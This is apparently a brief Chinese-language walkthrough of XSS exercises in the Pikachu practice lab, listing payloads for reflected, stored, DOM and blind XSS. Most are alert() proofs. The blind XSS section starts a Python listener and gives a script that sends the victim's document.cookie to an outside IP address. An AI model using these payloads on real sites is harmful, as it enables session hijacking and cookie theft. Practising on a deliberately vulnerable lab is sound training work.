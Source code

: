 # Pikachu靶场

## XSS

### 反射性

修改maxlength

```js
<script>alert('XSS')</script>
```

### 反射性-POST

先登录

```js
<script>alert('XSS')</script>
```

### 存储XSS

```js
<script>alert('XSS')</script>
```

会将payload存在数据库中，每次点击这个功能都会触发这个xss

### DOM型XSS

```js
' onclick="alert(1)">
```

### DOM型XSS-X

```js
' onclick="alert(1)">
```

### XSS盲打

在可以输入的地方全部输入payload

监听

```js
python3 -m http.server 7777
```

输入

```js
<script>location.href="http://49.234.56.200:7777/"+document.cookie</script>
```
